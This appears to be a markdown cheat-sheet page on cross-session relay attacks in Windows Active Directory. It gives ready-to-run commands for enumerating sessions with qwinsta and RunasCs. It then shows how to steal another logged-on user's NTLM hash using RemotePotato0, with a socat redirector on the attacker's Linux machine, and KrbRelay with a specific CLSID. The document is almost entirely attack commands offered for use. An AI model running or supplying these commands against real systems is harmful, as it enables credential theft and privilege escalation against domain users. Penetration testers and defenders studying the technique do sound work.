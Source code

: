 ```yaml
---
title: "Cross Session Relay"
date: 2024-8-2
tags: ["cross session relay", "ntlm", "active driectory", "ad", "Windows", "krbrelay", "RemotePotato0"]
---
```


### Display information about the session host

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
qwinsta *
```

```console
# Or runas
.\RunasCs.exe x x qwinsta -l 9
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #1: Steal NTLM hash

{{< tab set2 tab1 active >}}RemotePotato0{{< /tab >}}
{{< tab set2 tab2 >}}KrbRelay{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
# In local Linux 
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:<LOCAL_IP>:<LOCAL_PORT>
```

```console
# Trigger Attack
.\RemotePotato0.exe -m 2 -s <TARGET_SESSION_ID> -x <LOCAL_IP> -p <LOCAL_PORT>
```

</div>

<small>*Ref: [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```console
.\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm
```

```console
# Or runas
.\RunasCs.exe x x -l 9 "C:\ProgramData\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"
```

</div>

<small>*Ref: [KrbRelay](https://github.com/cube0x0/KrbRelay)*</small>

{{< /tabcontent >}}

<br>
